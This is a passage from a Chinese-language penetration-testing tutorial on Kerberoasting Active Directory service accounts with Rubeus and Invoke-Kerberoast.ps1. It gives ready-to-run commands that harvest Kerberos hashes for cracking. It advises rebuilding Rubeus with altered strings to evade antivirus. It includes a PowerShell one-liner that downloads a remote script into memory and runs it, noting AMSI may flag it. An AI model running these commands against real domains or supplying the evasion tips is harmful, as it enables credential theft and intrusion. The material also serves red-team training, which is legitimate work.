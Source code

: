 ## 开发

要获得 Rubeus，您实际上需要 Visual Studio 2017 或任何可以编译的东西.NET。就我而言，我使用 Visual Studio 并自己构建一个程序集。幸运的是，目前 Rubeus 的默认版本仅被 Virus Total 上的一个 AV 供应商检测到，但是如果您的 AV 被标记，只需更改一些字符串和注释并重建项目，您的 AV 就会关闭。这就是开源 C# / .NET 项目的优点，更容易绕过防病毒解决方案。  
没有程序集/exe 的武装，我们可以简单地将其放在域用户上下文中的目标加入域计算机上并开始 Roasting。  
Rubeus Github 对它的所有功能以及它针对特定目标的能力 OU's Users 等等都有一个令人惊奇的解释，所以我会尽量不逐字复制它，而只是展示它的功能。  
首先我们可以尝试烤当前域中的所有用户

```bash
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast
```

Kerberoast 特定 OU 中的所有用户（如果组织在特定 OU 中拥有所有服务帐户，则很好）  
PS C:\\Users\\m0chan\\Desktop > .\\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local  
这可能会生成大量输出，因此我们可以将所有哈希值输出到文件中，以便于管理和破解。  
/outfile:C:\\Temp\\TotallyNotHashes.txt  
测试特定用户或 SPN

```bash
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local
```

如果信任关系允许，您还可以在外部信任域中烤用户，但您可以查看 Rubeus Repo 以获取对此的完整说明。这个真的很酷。

## 调用-Kerberoast.ps1

我将在 Windows 部分讨论的最后一个脚本 Invoke-Kerberoast.ps1 远没有那么强大 Rubeus，Powerview 因此我不会像前面的部分那样将其分为枚举/利用。  
Invoke-Kerberoast.ps1。可以使用以下命令调用并执行 one-liner

```bash
PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

# Download Invoke-Kerberoast.ps1 into Memory (AMSI May Flag)

IEX(new-object Net.WebClient).DownloadString("[https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module\_source/credentials/Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)")

# Invoke-Kerberoast and Output to Hashcat Format

```bash
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

## 从 Linux
